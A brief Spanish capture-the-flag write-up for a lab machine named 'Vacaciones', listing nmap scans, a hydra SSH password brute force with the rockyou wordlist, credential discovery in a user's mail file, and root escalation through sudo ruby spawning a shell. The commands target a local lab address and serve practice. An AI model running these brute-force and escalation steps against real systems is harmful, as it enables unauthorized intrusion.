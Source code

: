 Maquina: Vacaciones
Autor: Romabri
Dificultad: Muy Facil

ping 172.17.0.2 -c 1

sudo nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
sudo nmap -sCV -p22,80 172.17.0.2 -oN targeted

miramos la web
https://172.17.0.2
obtenemos 2 usuarios que podemos explotar

sudo hydra -l camilo -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10
obtenemos password de camilo

ssh camilo@172.17.0.2

sudo -l
vemos que camilo no tiene permisos

buscamos el correo que nos ponia en la web
/var/mail$ cd camilo
ls
cat correo.txt
y descubrimos las credenciales del otro usuario

accedemos a juan por ssh
ssh juan@172.17.0.2

sudo -l
descubrimos que podemos ejecutar ruby como usuario root
sudo /usr/bin/ruby -e 'exec "/bin/bash"'
whoami
